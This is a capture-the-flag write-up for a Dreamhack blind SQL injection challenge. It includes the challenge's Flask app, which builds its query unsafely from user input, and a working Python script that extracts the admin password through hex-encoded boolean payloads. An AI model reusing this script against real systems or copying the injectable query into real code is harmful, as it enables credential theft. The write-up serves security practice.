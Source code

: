 ```yaml
---
title: blind sql injection advanced
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, dreamhack]
---
```


* Level: 2
* Link: [https://dreamhack.io/wargame/challenges/411](https://dreamhack.io/wargame/challenges/411)

## Description

> The administrator's password consists of "ASCII Code" and "Hangul".

### Attached

```sql
CREATE DATABASE user_db CHARACTER SET utf8;
GRANT ALL PRIVILEGES ON user_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `user_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO users (uid, upw) values ('admin', 'DH{**FLAG**}');
INSERT INTO users (uid, upw) values ('guest', 'guest');
INSERT INTO users (uid, upw) values ('test', 'test');
FLUSH PRIVILEGES;
```
{: file="init.sql" }


```py
import os
from flask import Flask, request, render_template_string
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'user_db')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM users WHERE uid='{{uid}}';</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
{% if nrows == 1%}
    <pre style="font-size:150%">user "{{uid}}" exists.</pre>
{% endif %}
'''

@app.route('/', methods=['GET'])
def index():
    uid = request.args.get('uid', '')
    nrows = 0

    if uid:
        cur = mysql.connection.cursor()
        nrows = cur.execute(f"SELECT * FROM users WHERE uid='{uid}';")

    return render_template_string(template, uid=uid, nrows=nrows)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
{: file="app.py" }

## Analyzation

In this challenge, the flag contains "Hangul", so we cannot use normal blind sqli to brute force each characters. Instead, we can convert flag to byte, and get the hexa form of the flag. Last, convert it back and we will have the flag.

## Solution

```py
import requests, string

def get(payload):
    URL = "http://host3.dreamhack.games:17983/?uid={}"
    response = requests.get(URL.format(payload))
    if response.status_code != 200:
        print("Failed to connect")
        exit()
    return response

# -------------------------------------------------

ALPHABET = string.digits + "abcdef"

flag = ""
for position in range(100):
    for c in ALPHABET:
        payload = f"admin' and substr(hex(upw), {position}, 1) ='{c}"
        response = get(payload)
        if 'exists' in response.text:
            flag += c
            print(flag)
            break
    # } in flag
    if "7d" in flag:
        break

# flag = "44487bec9db4eab283ec9db4ebb984ebb080ebb288ed98b8213f7d"
print(bytearray.fromhex(flag).decode())
```

The flag is
```
DH{이것이비밀번호!?}
```